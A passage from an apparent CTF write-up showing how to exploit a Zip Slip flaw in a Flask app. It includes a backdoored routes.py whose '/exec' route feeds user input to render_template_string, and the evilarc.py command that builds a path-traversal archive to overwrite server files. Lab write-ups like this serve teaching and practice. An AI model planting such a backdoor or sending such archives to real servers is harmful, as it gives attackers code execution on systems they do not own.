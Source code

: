 To solve problem 1, I found entries in [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload#decompress-in-different-folders) and [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Zip%20Slip/README.md) (they just have everything don't they?). These link me to `evilarc.py` a script by [ptoomey3](https://github.com/ptoomey3/evilarc).

## Grabbing the Flag
The next problem that needed to be solved was finding what file to overwrite, and with what. At this time, I found a CTF writeup for [another challenge](https://www.secjuice.com/247ctf-slippery-upload-write-up/) that was very close to being, if not exactly, the same challenge. I'll summarize how it works here.

Recall from earlier how the debug mode was on. This means, after certain changes are made in certain files, the backend will reload. At first, I tried crafting a modified version of `util.py`, but this crashed the web app. However, I then tried to modify `routes.py` to get a backdoor that has SSTI like so:

```python
from flask import Blueprint, request, render_template, abort, render_template_string
from application.util import extract_from_archive

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def index():
    return render_template('index.html')

@api.route('/unslippy', methods=['POST'])
def cache():
    if 'file' not in request.files:
        return abort(400)
    
    extraction = extract_from_archive(request.files['file'])
    if extraction:
        return {"list": extraction}, 200

    return '', 204

@web.route('/exec')
def run_cmd():
    try:
        return render_template_string(request.args.get('cmd'))
    except:
        return "Exit"
```

On my host machine, I craft the payload like so.
```shell
kali@transistor:~/ctf/htb_uni/web_slippy/teststuff$ python evilarc.py routes.py -o unix -f flag.tar.gz -p ../../../../blueprints/ -d 0
Creating flag.tar.gz containing ../../../../blueprints/routes.py
```
